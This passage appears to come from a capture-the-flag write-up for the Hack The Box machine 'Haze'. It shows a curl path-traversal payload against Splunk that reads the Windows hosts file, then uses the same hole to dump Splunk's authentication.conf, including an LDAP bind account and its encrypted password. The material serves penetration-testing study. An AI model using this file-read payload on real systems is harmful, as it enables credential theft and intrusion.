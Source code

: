 ```bash
curl http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../C:../C:../C:../C:../C:../C:/Windows/System32/drivers/etc/hosts

# Copyright (c) 1993-2009 Microsoft Corp.
#
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
#
# This file contains the mappings of IP addresses to host names. Each
# entry should be kept on an individual line. The IP address should
# be placed in the first column followed by the corresponding host name.
# The IP address and the host name should be separated by at least one
# space.
#
# Additionally, comments (such as these) may be inserted on individual
# lines or following the machine name denoted by a '#' symbol.
#
# For example:
#
#      102.54.94.97     rhino.acme.com          # source server
#       38.25.63.10     x.acme.com              # x client host

# localhost name resolution is handled within DNS itself.
#       127.0.0.1       localhost
#       ::1             localhost
```

Success! We have an LFI! We can attempt to use this to steal `Splunk` secrets.

We can use `Splunk`'s documentation to find authentication files, [Configure LDAP using configuration Files](https://docs.splunk.com/Documentation/Splunk/9.4.1/Security/ConfigureLDAPwithconfigurationfiles) and [Deploy secure passwords across multiple servers](https://docs.splunk.com/Documentation/Splunk/7.3.0/Security/Deploysecurepasswordsacrossmultipleservers)

`C:/Program Files/Splunk/etc/system/local/authentication.conf`

```json
[splunk_auth]
minPasswordLength = 8
minPasswordUppercase = 0
minPasswordLowercase = 0
minPasswordSpecial = 0
minPasswordDigit = 0

[Haze LDAP Auth]
SSLEnabled = 0
anonymous_referrals = 1
bindDN = CN=Paul Taylor,CN=Users,DC=haze,DC=htb
bindDNpassword = $7$ndnYiCPhf4lQgPhPu7Yz1pvGm66Nk0PpYcLN+qt1qyojg4QU+hKteemWQGUuTKDVlWbO8pY=
charset = utf8
emailAttribute = mail
enableRangeRetrieval = 0
groupBaseDN = CN=Splunk_LDAP_Auth,CN=Users,DC=haze,DC=htb
groupMappingAttribute = dn
groupMemberAttribute = member
groupNameAttribute = cn
host = dc01.haze.htb
nestedGroups = 0
network_timeout = 20
pagelimit = -1
port = 389
realNameAttribute = cn
sizelimit = 1000
timelimit = 15
userBaseDN = CN=Users,DC=haze,DC=htb
userNameAttribute = samaccountname
```